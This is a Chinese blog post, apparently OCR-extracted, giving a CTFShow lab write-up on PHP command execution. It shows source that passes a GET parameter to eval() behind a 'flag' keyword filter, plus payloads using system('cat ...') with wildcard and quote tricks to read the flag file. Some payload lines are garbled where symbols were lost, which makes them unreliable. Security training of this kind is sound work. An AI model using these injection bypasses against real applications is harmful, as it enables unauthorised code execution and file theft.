 php代码审计前奏之ctfshow之命令执行
yanmie
2021-01-17 160804
621418
本系列题目来源：CTFSHOW httpsctf.showchallenges

想搞好代码审计，必须要搞懂其中一些危险函数危险应用，以及过滤不足，

故以 CTF 来练习。

web29~过滤关键字
命令执行，需要严格的过滤
源码：

php
error_reporting(0);
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match(flagi, $c)){
eval($c);
}

}else{
highlight_file(__FILE__);
}
preg_match — 执行匹配正则表达式

题目限制了不能出现flag.

构造c=system(ls);页面回显：

flag.php index.php
绕过 flag ,通配符绕过。

linux 中有一些通配符。

代表任意字符 0个或多个

代表任意字符 1 个

[abcd]匹配abcd中一个字符

[a-z]匹配范围 a-z

还可以这样绕过

flag.php
fla''g.php
payload 

c=system('cat ');
c=system('cat flg.php');
c=system('cat f[a-z]ag.php');
执行 payload 后源代码中有显示。

另一种解法：

eval — 把字符串作为PHP代码执行

BUXXi8.md.png
